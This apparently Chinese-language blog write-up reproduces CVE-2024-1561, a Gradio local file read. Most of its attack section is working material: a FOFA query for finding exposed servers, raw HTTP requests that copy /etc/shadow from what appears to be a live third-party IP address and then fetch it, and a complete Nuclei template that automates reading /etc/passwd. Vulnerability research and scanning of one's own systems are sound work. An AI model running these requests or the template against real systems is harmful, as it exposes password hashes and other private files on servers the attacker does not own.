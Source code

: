﻿[toc]

# fofa 语句

body="__gradio_mode__"

# 免责声明

本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
# 漏洞描述
Gradio 是一个开源 Python 包，允许您为机器学习模型、API 或任何任意 Python 函数快速构建演示或 Web 应用程序。然后，您可以使用 Gradio 的内置共享功能在几秒钟内共享指向演示或 Web 应用程序的链接。无需 JavaScript、CSS 或 Web 托管经验！
# 漏洞原理
在gradio-app/gradio中发现了一个问题，`/component_server`端点不正确地允许使用攻击者控制的参数调用`Component`类的任何方法。具体来说，通过利用`Block`类的`move_resource_to_block_cache()`方法，攻击者可以将文件系统上的任何文件复制到临时目录，然后检索它。该漏洞允许未经授权的本地文件读取访问，尤其是当应用程序通过`launch(share=True)`暴露到互联网时，从而允许远程攻击者读取主机机器上的文件。
# 影响版本
不详

# 漏洞复现
访问/config页面获取components的id  
ps：其他没复现成功，目前复现4.9.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/b3b788c51a274da6a33f30b2c760d598.png)


将要读取的文件进行保存
```yaml
POST /component_server HTTP/1.1
Host: 106.252.38.197:7000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.3 Safari/605.1.1514.1.3 Ddg/14.1.3
Connection: close
Content-Length: 112
Content-Type: application/json
Accept-Encoding: gzip

{"component_id": "1","data": "/etc/shadow","fn_name": "move_resource_to_block_cache","session_hash": "12313213"}
```
通过文件读取/file=访问该文件
```yaml
GET /file=/tmp/gradio/9bca61cb96bfa520355d646072f0e52e24c724b3/shadow HTTP/1.1
Host: 106.252.38.197:7000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/fd3b01e4be704662b60ccaf13c46e0a6.png)
# 修复建议
更新到最新版本

# nc poc

```yaml

id: CVE-2024-1561

info:
  name: Gradio Applications - Local File Read
  author: Diablo
  severity: high
  description: |
    Local file read by calling arbitrary methods of Components class
  impact: |
    Successful exploitation of this vulnerability could allow an attacker to read files on the server
  remediation: |
    Update to Gradio 4.13.0
  reference:
    - https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338
    - https://github.com/DiabloHTB/CVE-2024-1561
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1561
    - https://github.com/gradio-app/gradio/commit/24a583688046867ca8b8b02959c441818bdb34a2
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-1561
    cwe-id: CWE-29
    epss-score: 0.00045
    epss-percentile: 0.14639
  metadata:
    verified: true
    max-request: 3
    shodan-query: html:"__gradio_mode__"
  tags: cve,cve2024,intrusive,unauth,gradio,lfi,lfr

flow: http(1) && http(2) && http(3)

http:
  - raw:
      - |
        GET /config HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: json
        name: first-component
        part: body
        group: 1
        json:
          - '.components[0].id'
        internal: true

  - raw:
      - |
        POST /component_server HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"component_id": "{{first-component}}","data": "/etc/passwd","fn_name": "move_resource_to_block_cache","session_hash": "aaaaaaaaaaa"}

    extractors:
      - type: regex
        name: tmpath
        regex:
          - \/[a-zA-Z0-9\/]+
        internal: true

  - raw:
      - |
        GET /file={{tmpath}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - 'contains(header, "text/plain")'
        condition: and
# digest: 490a004630440220321f22e77b20acc61afa7b5cbf1f465becdb09178d7c23342a1d1be0a11c843502205a9d96fc3f2429ce7f2566dce2a289b2ff6529266cee50a0d24bd60336562f19:922c64590222798bb761d5b6d8e72950
```

